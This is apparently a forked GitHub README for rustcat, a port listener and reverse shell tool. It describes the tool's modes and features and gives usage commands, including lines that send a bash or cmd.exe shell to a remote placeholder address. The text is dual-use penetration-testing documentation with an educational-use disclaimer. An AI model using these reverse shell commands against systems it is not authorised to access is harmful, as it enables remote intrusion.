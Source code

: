 <div align="center">
      <h1>rustcat - The modern port listener and reverse shell </h1>
</div>

<p align="center">
	<img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads" />
  	<a href="https://aur.archlinux.org/packages/rustcat"><img alt="AUR version" src="https://img.shields.io/aur/version/rustcat" /></a>
  	<img alt="GitHub Issues" src="https://img.shields.io/github/issues/robiot/rustcat.svg" />
  	<img alt="GitHub Contributors" src="https://img.shields.io/github/contributors/robiot/rustcat" /></a>
</p>
<hr>
<p align="center">
	Mine Data
	<br>
	<img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/Kolya142/rustcat/total?label=GitHub%20Downloads" />
  	<img alt="GitHub Issues" src="https://img.shields.io/github/issues/Kolya142/rustcat.svg" />
  	<img alt="GitHub Contributors" src="https://img.shields.io/github/contributors/Kolya142/rustcat" /></a>
</p>

## What is Rustcat
Rustcat is an easy to use port listener and reverse shell for Linux, MacOS, and Windows aimed to be easy to use and accessible.

![image](https://user-images.githubusercontent.com/68228472/184684103-87bf3af8-0607-4789-b3a2-09ce67efce55.jpg)

## Modes
- Listen mode (listen);
- Reverse shell mode (connect);

## Features
- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;

## Installing
Check out the [Installation Guide](https://github.com/robiot/rustcat/wiki/Installation-Guide). Or if you want to have it portable, check out the [latest release](https://github.com/robiot/rustcat/releases/latest)

## Usage
The most basic and useful example to start listening on a port would be (you can even run vim inside rustcat with this):
```
rcat listen -ib 55600
```
and to connect:
```
rcat connect -s bash the.0.0.ip 55600
```
Reverse shell from Windows:
```
rcat connect -s cmd.exe the.0.0.ip 55600
```

For some more basic usage, check [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)

## Disclaimer
This tool may be used for educational purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.
